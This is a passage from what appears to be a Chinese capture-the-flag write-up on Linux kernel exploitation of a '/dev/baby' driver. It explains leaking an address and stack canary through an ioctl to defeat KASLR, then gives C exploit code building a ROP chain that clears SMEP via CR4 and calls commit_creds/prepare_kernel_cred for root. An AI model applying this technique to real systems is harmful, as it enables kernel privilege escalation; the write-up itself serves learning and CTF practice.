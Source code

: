 - 计算偏移：先泄漏出关闭kaslr的0x48处的地址，在获取到开启后它的地址，例如要求 test函数的地址，&test=（&test（无kalsr）-base）+ now（base：0x48处不开保护的值，now：0x48处开保护的值）
- 不要忘记计算commit_creds和prepare_kernel_cred

###### kaslr开启的下断点方式：
- lsmod 查看加载地址（root下查看）。
- ida修改地址（rebase）为第一步找到的地址。
- 运行脚本，执行exp。
- set architecture i386:x86-64
- target remote :1234
- b *0x
- c

编写exp：
大致内容同上，我们这里就着重分析一下不同的地方：
首先先写一个u64函数（pwntools里的u64很好用，这里用c语言实现。）
``` c
uint64_t u64(char *s){
    uint64_t result = 0;
    for(int i = 7; i >= 0; i--){
        result = (result << 8) | (0x00000000000000ff&s[i]);
    }
    return result;
}
```
下面是主函数：
``` c
int main()
{
    save_state();
    int dirver_fd = open("/dev/baby",0);
    char temp[0x1000];
    ioctl(driver_fd,0x6002,&temp);
    write(1,temp,0x200);
    uint64_t nokaslr_address = 0xffffffff8129b078;
    uint64_t address = u64(&temp[0x48]);
    uint64_t canary = u64(&temp[0x68]);
    uint64_t movrdicr4_poprbp_ret = address + 0xffffffff81020300 -nokaslr_address;
    uint64_t poprdi = address + 0xffffffff810027a5 - nokaslr_address;

    commit_creds = address + (commit_creds - nokaslr_address);
    prepare_kernel_cred = address + (prepare_kernel_cred - nokaslr_address);
    getchar();
    uint64_t ropchain[0x100] = {
        0,0,0,0,0,0,0,0,
        0,0,0,0, 0,0,0,0,
       canary,0,
        poprdi,
        0x6f0,
        0,
        movrdicr4_poprbp_ret,
        0,
        &payload
    };
    ioctl(driver_fd, 0x6001, &ropchain);
}
```
先使用一次ioctl，配合write实现泄漏，配合事先找好的nokslar的地址计算出开启后的地址，rop的构造和用户态的rop构造方法相同。
